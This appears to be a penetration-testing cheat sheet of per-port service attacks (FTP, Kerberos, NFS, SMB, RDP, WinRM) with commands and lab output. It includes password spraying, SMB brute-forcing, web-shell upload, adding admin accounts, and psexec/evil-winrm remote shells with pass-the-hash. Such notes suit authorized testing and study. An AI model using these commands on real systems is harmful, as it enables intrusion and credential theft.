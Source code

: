 ```yaml
---
title: Services
description: How to pentest different services.
---
```


## FTP (port 21)

### Anonymous login

`nmap -p 21 --script=ftp-anon 10.10.174.58`

### Download everything

`wget -m --user='USERNAME' --password='PASSWORD' ftp://127.0.0.1`

## Kerberos (port 88)

### Enumeration & bruteforce

[Kerbrute](https://github.com/ropnop/kerbrute) has four main commands:

- bruteuser - Bruteforce a single user's password from a wordlist
- bruteforce - Read username:password combos from a file or stdin and test them
- passwordspray - Test a single password against a list of users
- userenum - Enumerate valid domain usernames via Kerberos

See [AD - enumeration](/pentest/active-directory/02-enumeration/).


## RPC / NFS (port 111, 2049, 20048)

Interesting files : `/etc/nfs.conf`, `/etc/fstab` and `/etc/exports`

```bash
$ rpcinfo -p | grep nfs

100003    3   tcp   2049  nfs
100003    4   tcp   2049  nfs
100227    3   tcp   2049  nfs_acl
```

Nmap NSE :

```bash
$ sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.220.222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:48 CET
Nmap scan report for 10.10.220.222
Host is up (0.035s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *
| nfs-statfs:
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836532.0  6877096.0  22%   16.0T        32000

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

Show NFS mount

```bash
$ showmount -e 10.10.200.32
Export list for 10.10.200.32:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
$ sudo mkdir /mnt/nfs1
$ sudo mount -t nfs -o rw 10.10.200.32:/home/ubuntu/sharedfolder /mnt/nfs1
$ cd /mnt/nfs1
...
```

Mount NFS partition :

```
$ sudo mkdir /mnt/ntfs1
$ sudo mount -t nfs 10.10.220.222:/var /mnt/ntfs1
$ cd /mnt/ntfs1
$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

## Samba (port 139, 445)

### List shares

```bash
$ sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.220.222
[...]
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.220.222\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
[...]
```

```bash
$ crackmapexec smb 10.10.86.204 --shares
```

```
$ smbclient -L 10.10.86.204
Password for [MYGROUP\xanhacks]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
```

### Download / upload files

```bash
$ smbclient -U 'guest' '\\10.10.86.204\nt4wrksv'
Password for [MYGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4932712 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> mput shell.aspx
Put file shell.aspx? y
putting file shell.aspx as \shell.aspx (40.5 kb/s) (average 40.5 kb/s)
```

### Recursive download

Recursively download all the files of the share using `smbget -R` :

```bash
$ smbget -R smb://10.10.220.222/anonymous
Password for [xanhacks] connecting to //anonymous/10.10.220.222: <press enter>
Using workgroup WORKGROUP, user xanhacks
smb://10.10.220.222/anonymous/log.txt
Downloaded 11.95kB in 1 seconds
```

### Bruteforce SMB

```
$ cme smb 10.10.10.182 -u users.lst -p passwords.list
[...]
```

### Shell over SMB (psexec.py)

How [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) works ?

1. Establishes an SMB network connection to a target system using administrator credentials
2. Pushes a copy of a receiver process named PSEXESVC.EXE to the target system’s ADMIN$ share
3. Launches PSEXESVC.EXE, which sends input and output to a named pipe

```bash
$ cme smb 10.10.10.182 -u administrator -p 'pass123'
SMB ... (Pwn3d!)
$ psexec.py administrator:pass123@10.10.10.182
[...]
C:\Windows\system32>
```

## CIFS (port 445)

CIFS (Common Internet File System) is a protocol that gained popularity around the year 2000, as vendors worked to establish an Internet Protocol-based file-sharing protocol.

CIFS is now considered obsolete, because most modern data storage systems use the more robust Server Message Block (SMB) 2.0 and 3.0 file-sharing protocols, which were major upgrades to CIFS.

### Mount partition

```bash
$ mkdir /mnt/data
$ sudo mount -t cifs -o 'user=r.thompson,password=admin123' //10.10.10.182/Data /mnt/data
```

## RDP (port 3389)

Windows user need to be in the `Remote Desktop Users` or `Administrators` group to use RDP.

```powershell
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```

RDP using `rdesktop` :

```bash
$ rdesktop -u <username> -p <password> <ip>
```

GUI using [remmina](https://remmina.org/).

## WinRM (port 5985)

Windows user need to be in the `Remote Management Users` group to use WinRM.

You can use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to obtain a remote shell.

To check :

```bash
$ cme winrm 10.200.10.196 -u administrator -p 'pass123'
WINRM ... (Pwn3d!)
```

Gain shell :

```bash
$ evil-winrm -i 10.200.10.196 -u administrator -p 'admin123'

$ evil-winrm -i 10.200.10.196 -u administrator -H '37db630168e5f82aafa8461e05c6bbd1'
```
